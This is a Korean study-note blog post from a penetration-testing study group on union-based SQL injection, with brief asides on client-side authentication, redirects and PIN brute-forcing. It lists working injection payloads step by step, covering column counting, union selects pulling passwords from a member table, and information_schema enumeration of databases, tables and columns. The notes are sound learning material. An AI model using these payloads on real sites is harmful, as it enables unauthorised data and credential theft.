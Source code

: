```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[WEB HACKING] Union SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-20
last_modified_at: 2024-12-16

tags: [TIL]
---
```


클라이언트 측 인증

분리
내가 비밀번호를 바꿀 수 있던지
비밀번호를 알아내던지

어떤 방식으로 고민을 해야 하는가?
어떻게 동작하느냐? -> 직접 만들어보기
sql query문 직접 실행해보기
왜 됐는 지 확인하기
1. 문제 원인 찾기
2. 문제 해결하기

하나씩

burp how to modify response

남들의 문제는 원인을 생각하지 마라

https://www.redirhub.com/ko/blog/redirect-types-and-seo-effects-2
https://developer.mozilla.org/ko/docs/Web/HTTP/Redirections

pincode crack 문제 직접 만들어보기
오류 횟수의 제한이 없다
-> 횟수의 제한을 두려면 어떻게 만들어야 하는가?

sql injection
-> prepared statement
1. db를 사용하는 곳
2. 그 데이터가 화면에 나오는가? 안 나오는가?
    1. 게시판
    2. 로그인, 아이디 중복체크 등

웹페이지에 데이터가 나오는 경우에서 데이터를 추출하는 방법
union
join은 안되냐??

order by
출력되는 데이터 정렬할 때 사용
SELECT ~ ORDER BY [COLUMN]

UNION SQL INJECTION
Process
1. sql injection 포인트 찾기
' and '1' = '1
2. column 개수 찾기
' order by 1...n #
3. 출력되는 column 위치 찾기
' union select 1, 2, 3, 4 #
-> select 1, 2, 3, 4가 왜 정상적으로 작동하는 거야???
-> ' union select 1, pass, 3, 4 from member #
4. db 이름 확인
select database()
-> ' union select 1, database(), 3, 4 from member #
5. table 이름 확인
select table_name from information_schema.tables where table_schema = [DB 이름]
-> ' union select 1, table_name, 3, 4 from information_schema.tables where table_schema = [DB 이름] #
6. column 이름 확인
select column_name from information_schema.columns where table_name = [table 이름]
-> ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = [table 이름] #
7. data 추출